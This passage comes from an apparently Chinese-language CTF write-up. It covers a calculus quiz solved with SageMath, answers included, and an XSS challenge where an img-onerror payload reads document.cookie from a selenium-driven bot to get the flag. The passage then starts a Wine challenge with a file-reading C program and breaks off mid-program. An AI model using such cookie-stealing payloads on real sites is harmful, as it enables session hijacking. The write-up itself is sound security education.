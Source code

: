我关远程桌面的时间不点了，它突然告诉我“您不是本机的超级管理员”（我在使用 Administrator 账户）。我大意了啊，没有逆向改它函数。这个 flag 自动机不讲武德，我劝它好自为之，好好反思，以后不要再犯这样的小聪明。

后续通过逆向并 Patch Program 得到 flag。 ~~不会 binary 题，调了好几个小时~~

## 微积分计算小练习

打开练习网站，发现有 5 道微积分计算题。 ~~那么就先把它们都做出来吧~~

代码使用 [SageMath](https://www.sagemath.org/)，题目要求四舍五入，保留一位小数，可以使用`round`函数。（不想做题可以跳过此部分）

```sage
from sage.symbolic.integration.integral import definite_integral    # 导入定积分函数
definite_integral(1/(x**2+1),x,0,1)                                 # 第一题
lim(sin(x)/x,x=0)                                                   # 第二题
definite_integral(e**(-2*x**2),x,-oo,oo)                            # 第三题
definite_integral(arcsin(1/10),x,0,1)                               # 第四题
derivative(cos(x)/sin(x),x)(x=114)                                  # 第五题
answers = [0.8, 1.0, 1.3, 0.1, -1.6]                                # 答案
```

成功获得了 100 分。

从微积分的世界返回到 CTF 的世界，调试网页并阅读后端源码发现：

- 成绩页面存在 XSS 漏洞。
- 成绩页面的姓名与分数在 URL param 的 result 中通过 base64 编码。（以及 URL Encode）
- 提交练习成绩的页面会使用 selenium 控制 Chrome，打开成绩页面处理成绩后输出。
- flag 在后端 Chrome 的 cookie 中。

构造 payload 如下：

```html
<img
  src="x"
  onerror="document.getElementById('greeting').innerText=document.cookie;"
/>:<img
  src="x"
  onerror="document.getElementById('score').innerText=document.cookie;"
/>
```

通过 base64 编码，URL Encode 后，修改 URL 并在提交练习成绩的页面提交，得到 flag。

## 杯窗鹅影

### flag1

写一个 C 程序，读取`/flag1`并输出。使用`x86_64-w64-mingw32-gcc`编译并上传。

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  FILE *fptr;
  char c;
  fptr = fopen("/flag1", "r");
  if (fptr == NULL) {
    printf("Cannot open file \n");
    exit(1);
  }
  c = fgetc(fptr);
  while (c != EOF) {
    printf("%c", c);
    c = fgetc(fptr);
  }
  fclose(fptr);
```